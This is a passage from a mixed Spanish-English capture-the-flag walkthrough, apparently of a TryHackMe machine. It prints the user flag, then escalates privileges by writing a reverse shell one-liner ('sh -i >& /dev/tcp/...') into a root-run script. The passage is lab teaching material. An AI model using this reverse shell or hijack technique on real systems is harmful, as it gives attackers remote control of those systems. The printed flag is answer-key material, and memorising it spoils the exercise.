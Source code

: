 Ya adentro

```
$ ls
Documents  scripts  user.txt
$ cat user.txt
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
$ 

```

**3. What are the contents of root.txt?**

Cuando enumeramos el contenido del directorio de Lennie, vimos dos directorios además de la bandera: Documentos y scripts. Hay tres archivos de texto en el directorio Documentos, veamos qué hay en ellos.
There’s nothing really here, let’s see the scripts.

Hay un archivo de texto llamado “startup list.txt”,y planner enumeraremos el contenido.

No hay nada, lo cual no nos ayuda en absoluto. Revisar el archivo planner.sh nos da algo que puede resultar útil.

```
$ ls -la
total 24
drwx------ 5 lennie lennie 4096 Oct  9 03:58 .
drwxr-xr-x 3 root   root   4096 Nov 12  2020 ..
drwx------ 2 lennie lennie 4096 Oct  9 03:58 .cache
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4096 Nov 12  2020 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
$ cd scripts
$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 5 lennie lennie 4096 Oct  9 03:58 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Oct  9 04:05 startup_list.txt
$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
$ 

```

Ocupamos un revers shell 
podemos usar este
https://www.revshells.com/
Ponemos el ip de nuestra maquina y el puerto que decidimos usar

y despues lo usamos 
```
$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
$ echo "sh -i >& /dev/tcp/10.9.0.72/5555 0>&1" > /etc/print.sh
$ cat /etc/print.sh
sh -i >& /dev/tcp/10.9.0.72/5555 0>&1
$     


```
